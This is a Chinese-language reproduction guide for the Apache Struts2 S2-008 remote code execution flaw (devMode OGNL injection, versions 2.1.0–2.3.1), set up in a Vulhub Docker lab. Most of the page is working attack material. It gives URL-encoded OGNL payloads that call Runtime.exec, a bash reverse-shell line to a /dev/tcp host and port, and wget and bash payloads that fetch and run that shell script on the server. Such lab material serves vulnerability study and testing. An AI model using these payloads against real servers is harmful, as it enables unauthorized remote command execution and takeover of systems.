

# Struts2 S2-008 远程代码执行漏洞

## 漏洞描述

S2-008 涉及多个漏洞，Cookie 拦截器错误配置可造成 OGNL 表达式执行，但是由于大多 Web 容器（如 Tomcat）对 Cookie 名称都有字符限制，一些关键字符无法使用使得这个点显得比较鸡肋。另一个比较鸡肋的点就是在 struts2 应用开启 devMode 模式后会有多个调试接口能够直接查看对象信息或直接执行命令，正如 kxlzx 所提这种情况在生产环境中几乎不可能存在，因此就变得很鸡肋，但我认为也不是绝对的，万一被黑了专门丢了一个开启了 debug 模式的应用到服务器上作为后门也是有可能的。

参考阅读：

-  http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html

漏洞详情:

- http://struts.apache.org/docs/s2-008.html

## 漏洞影响

影响版本: 2.1.0 - 2.3.1

## 环境搭建

Vulhub执行以下命令启动s2-008测试环境：

```
docker-compose build
docker-compose up -d
```

## 漏洞复现

在 devMode 模式下直接添加参数`?debug=command&expression=<OGNL EXP>`，会直接执行后面的 OGNL 表达式，因此可以直接执行命令（注意转义）。

```
http://your-ip:8080/S2-008/devmode.action?debug=command&expression=(%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28%22false%22%29%20%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C@java.lang.Runtime@getRuntime%28%29.exec%28%22open%20%2fApplications%2fCalculator.app%22%29)
```

### 反弹shell

编写shell脚本并启动http服务器：

```
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
python3环境下：python -m http.server 80
```

上传shell.sh文件的命令为：

```
wget 192.168.174.128/shell.sh
```

上传shell.sh文件的Payload为：

```
http://your-ip:8080/S2-008/devmode.action?debug=command&expression=(%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28%22false%22%29%20%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C@java.lang.Runtime@getRuntime%28%29.exec%28%22wget%20192.168.174.128%2fshell.sh%22%29)
```

执行shell.sh文件的命令为：

```
bash /usr/local/tomcat/shell.sh
```

执行shell.sh文件的Payload为：

```
http://your-ip:8080/S2-008/devmode.action?debug=command&expression=(%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28%22false%22%29%20%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C@java.lang.Runtime@getRuntime%28%29.exec%28%22bash%20%2fusr%2flocal%2ftomcat%2fshell.sh%22%29)
```

成功接收反弹shell：



